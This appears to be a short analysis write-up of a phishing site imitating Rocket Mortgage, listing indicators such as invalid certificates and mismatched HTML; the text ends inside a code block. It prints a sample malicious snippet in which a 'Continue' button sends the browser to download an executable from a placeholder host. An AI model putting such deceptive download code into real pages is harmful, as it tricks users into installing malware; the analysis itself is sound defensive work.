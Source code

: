 # Cybersecurity Analysis: Phishing Website Imitating Rocket Mortgage

## Project Overview
This project analyzes a **phishing website mimicking Rocket Mortgage**. The website was flagged on PhishTank.org.  
The goal: identify key indicators of phishing, including SSL issues, HTML inconsistencies, malicious JavaScript, and suspicious network information.  

---

## Key Findings

### 1. SSL Certificate Validation Issues
- The SSL certificate is **invalid** and not issued by a trusted authority.
- Users see warnings like **“Not Secure”**.
- Legitimate Rocket Mortgage sites always use trusted certificates (e.g., DigiCert, GlobalSign).

**Example screenshot:**  
`Invalid_Certificate.png`

---

### 2. Design & HTML Inconsistencies
- Phishing site layout, fonts, and UI elements differ from the legitimate site.
- Buttons are misleading:
  - Labeled “Continue” but function as **download triggers**.
- HTML code contains embedded malicious scripts.

**Example screenshots/code:**  
- `Different_HTML_style.png` – layout/font mismatch  
- `Malicious_HTML_button.png` – suspicious button code  

**Sample malicious HTML snippet:**
```html
<button onclick="downloadFile()">Continue</button>
<script>
  const file_url = "http://malicious-site.com/file.exe";
  function downloadFile(){ window.location.href = file_url; }
</script>
